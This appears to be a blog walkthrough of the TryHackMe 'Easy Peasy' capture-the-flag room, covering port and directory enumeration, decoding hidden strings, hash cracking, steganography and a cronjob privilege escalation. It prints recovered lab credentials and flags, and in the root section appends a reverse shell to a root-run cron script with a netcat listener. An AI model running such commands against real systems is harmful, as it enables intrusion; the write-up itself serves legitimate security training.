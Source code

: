 ```yaml
---
layout: post
title: Walkthrough - Easy Peasy
published: True
---
```


Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

[https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

* * *

## Notes

- Perform an nmap scan ``sudo nmap -Pn -sS -p- -T4 10.10.140.191 -vvv`` while waiting for results check webserver and start gobuster
- ``gobuster dir -u http://10.10.140.191 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

Find a hidden directory with nothing else there but we can further enumerate and gobust that one.

```shell
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster found ``/hidden/whatever`` inside the source code we find base64 ``ZmxhZ3tmMXJzN19mbDRnfQ==`` and our first flag
- time to gobust the other server on port 65524

![](/assets/easy-peasy-flag03.png)

- we find robots.txt on 65524

```html
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- ``gobuster dir -u http://10.10.140.191:65524/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error -a a18672860d0510e5ab6699730763b250``
- Turns out the user agent is a md5 hash for our second flag

- after a few hours i guess haveto be more careful about looking through source code. Found base encoded data that i threw into cyberchef to decode. it's not your regular base32 or 64 or 58 encode. This leads us to another hidden directory.

![](/assets/easy-peasy04.png)

- lets check out ``/n0th1ng3ls3m4tt3r``
- download the jpg.
- also found ``940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`` in the source code. save to ``nothingelsematters.hash`` and feed it to john
- ``john nothingelsematters.hash --wordlist=easypeasy.txt --format=gost`` gives us ``mypasswordforthatjob``
- ``stegseek binarycodepixabay.jpg ./easypeasy.txt`` gives us ``secrettext.txt`` with credentials and a password in binary. Wait its actually ASCII and ``iconvertedmypasswordtobinary``
- credentials ``boring:iconvertedmypasswordtobinary``

* * * 

## What is the user flag?

- affine cipher - A=1,B=13

* * * 

## What is the root flag?

- ``cat /etc/crontab`` we find ``* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh``
- ``echo "sh -i >& /dev/tcp/10.2.127.225/6670 0>&1" >> .mysecretcronjob.sh``
- on attacker machine ``nc -nvlp 6670`` then ``cat /root/.root.txt``

* * * 

